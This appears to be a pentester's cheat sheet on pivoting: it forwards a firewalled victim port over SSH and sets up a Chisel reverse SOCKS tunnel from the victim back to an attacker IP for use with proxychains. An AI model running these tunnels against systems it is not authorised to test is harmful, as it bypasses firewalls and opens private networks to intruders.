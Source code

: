 
## See exposed sockets

See what socket is used on the machine :

```
ss -tulpn
```

## Using ssh to expose service

If a service is running on lets say port 8080 of a machine (and is blocked by a firewall), you can redirect the trafic to your machine on port 2222 for exemple :

```bash
#attacker machine
ssh -L 2222:127.0.0.1:8080 <user>@<victim ip>
# 2222 est le port local (attaquant) et 8080 est le port a exposer (victime)
```

Access the hidden service on `127.0.0.1:2222` on the attacker machine

## Chisel

[Chisel Tunneling](http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/)

Installation :
```bash
rm -rf /opt/tools/chisel/
mkdir -p /opt/tools/chisel/

wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz -O /opt/tools/chisel/chisel.gz
gzip -d /opt/tools/chisel/chisel.gz
mv /opt/tools/chisel/chisel /opt/tools/chisel/chisel.elf
chmod +x /opt/tools/chisel/chisel.elf

wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_windows_amd64.gz -O /opt/tools/chisel/chisel.gz
gzip -d /opt/tools/chisel/chisel.gz
mv /opt/tools/chisel/chisel /opt/tools/chisel/chisel.exe
chmod +x /opt/tools/chisel/chisel.exe
```

On host :
```
./chisel.elf server -p 8080 --reverse
```

On victim : 
```
./chisel.elf client <YourIP>:8080 R:socks
```

### Setup and use ProxyChains with Chisel

Create a proxychains.conf : 
```
proxy_dns
tcp_read_time_out 200
tcp_connect_time_out 200
[ProxyList]
socks5	127.0.0.1 1080
```

Launch the server, connect the client and you can access the IPs on the networks your client has access to, from your attacker machine with the command : 

```
proxychains -q <command> # -q for quiet
```

